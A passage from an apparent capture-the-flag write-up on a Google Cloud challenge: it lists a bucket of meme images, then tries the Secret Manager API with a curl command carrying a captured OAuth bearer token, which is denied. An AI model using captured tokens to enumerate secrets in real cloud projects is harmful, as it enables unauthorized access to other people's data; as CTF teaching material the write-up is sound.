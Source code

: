 ```xml
    <Key>pwease.jpg</Key>
    <Generation>1599978653714952</Generation>
    <MetaGeneration>1</MetaGeneration>
    <LastModified>2020-09-13T06:30:53.714Z</LastModified>
    <ETag>"a5d78d68bbe322dd9eb7c0b7cc10d351"</ETag>
    <Size>78556</Size>
  </Contents>
  <Contents>
    <Key>well.jpg</Key>
    <Generation>1599978653713841</Generation>
    <MetaGeneration>1</MetaGeneration>
    <LastModified>2020-09-13T06:30:53.713Z</LastModified>
    <ETag>"d3dc9d37be995443389a5afa070b87b4"</ETag>
    <Size>32300</Size>
  </Contents>
  <Contents>
    <Key>winsad.png</Key>
    <Generation>1599978653838259</Generation>
    <MetaGeneration>1</MetaGeneration>
    <LastModified>2020-09-13T06:30:53.838Z</LastModified>
    <ETag>"84ad4a0d5616f33238540ba028da0114"</ETag>
    <Size>243497</Size>
  </Contents>
</ListBucketResult>
```

It looks like all of the memes we could get from the bot is in this bucket, but nothing else so this is a dead end :(

## SecretManager

In the task description there is a hint about SECRETS, so let's look into what we can do with the SecretManager REST API:
https://cloud.google.com/secret-manager/docs/reference/rest

We can apparently get a list of all the available secrets, so what are we waiting for?

`curl -H "Authorization: Bearer ya29.c.Kn_dB1yqILFXvNzBMncPrpCALQ-4dhzfhNjIudh6ZCmaAtBNbGWzjTn9YmBSSxUDplTVcMmcuuKcw6qpK3fc68JT2BI7wrGHLcQ4mifGQ0AyVaQZGJQ1JKQxfIF015gLdNK8SeQjdQufCnXZTvWm0GirhKB7VtmheE1-r09n9khj" 'https://secretmanager.googleapis.com/v1beta1/projects/discloud-chal/secrets'`

```json
{ "error": 
    {
        "code": 403,
        "message": "Permission 'secretmanager.secrets.list' denied for resource 'projects/discloud-chal' (or it may not exist).",
        "status": "PERMISSION_DENIED"
    }
}
```

Oh no! We do not have access to view the secrets... 

